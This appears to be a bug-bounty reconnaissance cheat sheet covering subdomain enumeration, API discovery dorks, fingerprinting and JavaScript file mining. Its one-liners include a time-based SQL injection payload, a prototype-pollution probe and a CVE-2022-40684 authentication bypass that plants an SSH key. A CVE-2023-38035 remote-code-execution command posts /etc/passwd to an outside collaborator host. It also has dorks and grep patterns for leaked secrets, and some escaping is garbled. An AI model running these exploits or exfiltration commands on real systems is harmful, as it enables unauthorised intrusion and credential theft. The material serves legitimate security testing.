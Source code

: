 # Reconnaissance

## Subdomain Enumeration

> **Tools**

* https://github.com/h0tak88r/AutoSubRecon
* https://github.com/h0tak88r/submonit88r
* https://github.com/bing0o/SubEnum
* https://github.com/shmilylty/OneForAll

> **Write ups**

* https://h0tak88r.medium.com/mastering-subdomain-enumeration-6c84571b07b
* https://h0tak88r.github.io/posts/Deep-Subdomains-Enumeration/
*

## API Recon

1. Check for documentation
   * Swagger -> `/openapi.json`
   * GraphQL -> https://graphql.org/learn/introspection/ -> https://github.com/prisma-labs/get-graphql-schema
   * manual -> `site:target.tld intitle:api | developer`
2. Search for APIs
   * `site:target.tld inurl:api`
   * `intitle:"index of" "api.yaml" site:target.tld`
   * `intitle:"index of" intext:"apikey.txt" site:target.tld`
   * `allintext:"API_SECRET*" ext:env | ext:yml site:target.tld`
3. Enumerate endpoints / methods
   * https://wordlists-cdn.assetnote.io/data/automated/httparchive\_apiroutes\_2023\_08\_28.txt
   * swagger -> https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/swagger.txt
   * Tools -> [ffuf](https://github.com/ffuf/ffuf#post-data-fuzzing) -> [kiterunner](https://github.com/assetnote/kiterunner)

## One-liners & Quick Wins

```bash
# Grep emails and other PII Data from URLs file
grep -E -o '\\\\\\\\b[a-zA-Z0-9._%+-]+@[a-zA-Z0-9.-]+\\\\\\\\.[a-zA-Z]{2,}\\\\\\\\b' urls.txt

#Extract Endpoints from JavaScript
cat FILE.js | grep -oh "\\\\\\\\"\\\\\\\\/[a-zA-Z0-9_/?=&]&\\\\\\\\""| sed -e 's/^"//' -e 's/"$//' | sort -u

#Get CIDR & Org Information from Target Lists
for HOST in $(cat HOSTS.txt); do echo (for ip in $(dig a $HOST +short); do whois $ip | grep -e "CIDR\\\\\\\\|Organization" | tr -s " | paste -; done | uniq); done
"
#Prototype Pollution
subfinder -d HOST -all -silent ❘ httpx -silent -threads 300 | anew -q FILE.txt && sed 's/$/\\\\\\\\/?_proto_[testparam]=exploit\\\\\\\\//' FILE.txt | page- fetch -j 'window.testparam == "exploit"? "[VULNERABLE]": "[NOT VULNERABLE]" | sed "s/(//g" sed "s/)//g" | sed "s/JS //g" | grep "VULNERABLE"
'
# Sitemap SQL Injection
cat urls.txt | httpx -silent -path 'sitemap.xml?offset=1%3bSELECT%20IF((8303%3E8302)%2cSLEEP(10)%2c2356)%23' -rt -timeout 20 -mrt '>10'

# Authentication Bypass (CVE-2022-40684) POC --> <https://twitter.com/h4x0r_dz/status/1580648642750296064/photo/1>
ffuf -w "host_list.txt:URL" -u "<https://URL/api/v2/cmdb/system/admin/admin>" -X PUT -H 'User-Agent: Report Runner' -H 'Content-Type: application/json' -H 'Forwarded: for="[127.0.0.1]:8000";by=”[127.0.0.1]:9000";' -d '{"ssh-public-key1": "h4x0r"}' -mr "SSH" -r

## CVE-2023-26256 -> <https://github.com/aodsec/CVE-2023-26256>
git clone <https://github.com/aodsec/CVE-2023-26256.git>
python3 CVE-2023-26256.py -h

# CVE-2023-38035 - Unauth. RCE
python3 -c "from pyhessian.client import HessianProxy as H; H('https://TARGET-DOMAIN:8443/mics/services/MICSLogService').uploadFileUsingFileInput({'command': 'curl -X POST -d @/etc/passwd [BURP-COLLABORATOR-URL.com](https://burp-collaborator-url.com/)', 'isRoot': True}, None)"

# Quick Port Scanning with Fuzzing
cat ips.txt|naabu -silent -tp 1000 -o top1k.txt;cat top1k.txt|grep -vE ':80|:443' | httpx -silent -fc 400,503,204,405 -o httpx.txt;cat httpx.txt|python3 [dirsearch.py](https://dirsearch.py/) --stdin -e '*' -t 60 -w onelistforall.txt -i 200,301,302 --format plain -o report.txt

# SSRF use Autorize Exxtension Match and replace 
https?://(www.)?[-a-zA-Z0–9@:%.+~#=]{1,256}.[a-zA-Z0–9()]{1,6}\b([-a-zA-Z0–9()@:%+.~#?&//=]*)

```

***

## Fingerprinting

*   Port Scanning [https://github.com/nullt3r/jfscan](https://github.com/nullt3r/jfscan)

    ```bash
    # Before installation
    sudo apt install libpcap-dev
    sudo apt-get --assume-yes install git make gcc
    #masscan
    git clone <https://github.com/robertdavidgraham/masscan>
    cd masscan
    make
    sudo make install
    sudo setcap CAP_NET_RAW+ep /usr/bin/masscan
    sudo apt install python3 python3-pip
    # install jfscan
    git clone <https://github.com/nullt3r/jfscan.git>
    cd jfscan
    cd jfscan
    # incase of error running 
    export PATH="$HOME/.local/bin:$PATH"
    ```
*   Waf Detect

    ```bash
    nuclei -l urls.txt -t nuclei_templates/waf
    sudo apt install wafw00f
    wafw00f -l urls.txt
    ```
*   [**uncover**](https://github.com/projectdiscovery/uncover) >> discover exposed hosts on the internet. It is built with automation in mind, so you can query it and utilize the results with your current pipeline tools.

    ```python
    # installation
    go install -v github.com/projectdiscovery/uncover/cmd/uncover@latest
    # configuration file 
    $HOME/.config/uncover/provider-config.yaml
    # usage
    uncover -q "test.com" -e censys,fofa,shodan
    ```

## JS Files

> **Tools**

* [Scripts/python scripts/JS\_Leaks\_spider.py](https://github.com/h0tak88r/Scripts/blob/main/python%20scripts/JS\_Leaks\_spider.py)
* Use This Extension to analyse JS Files [FindSomething - Chrome Web Store (google.com)](https://chrome.google.com/webstore/detail/findsomething/kfhniponecokdefffkpagipffdefeldb/related)
* [Can analyzing javascript files lead to remote code execution? | by Asem Eleraky | Medium](https://melotover.medium.com/can-analyzing-javascript-files-lead-to-remote-code-execution-f24112f1aa1f)

```bash
# Collect JS Files
katana -list targets.txt -jc | grep “\\.js$” | uniq | sort -u | tee JS.txt

# or use gau tool
cat targets.txt | gau |  grep “\\.js$” | uniq | sort -u | tee JS2.txt

# Analyzing JS files
nuclei -l JS.txt -t ~/nuclei-templates/exposures/ -o js_exposures_results.txt
nuclei -l JS2.txt -t ~/nuclei-templates/exposures/ -o js_exposures_results.txt
cat Js_urls.txt | Mantra



# Download all JS files 
file="JS.txt"
while IFS= read -r link
do
    wget "$link"
done < "$file"

file="JS2.txt"
while IFS= read -r link
do
    wget "$link"
done < "$file"

# Use This Regex to search for sensitive info 
grep -r -E "aws_access_key|aws_secret_key|api key|passwd|pwd|heroku|slack|firebase|swagger|aws_secret_key|aws key|password|ftp password|jdbc|db|sql|secret jet|config|admin|pwd|json|gcp|htaccess|.env|ssh key|.git|access key|secret token|oauth_token|oauth_token_secret|smtp|GTM-" *.js

```
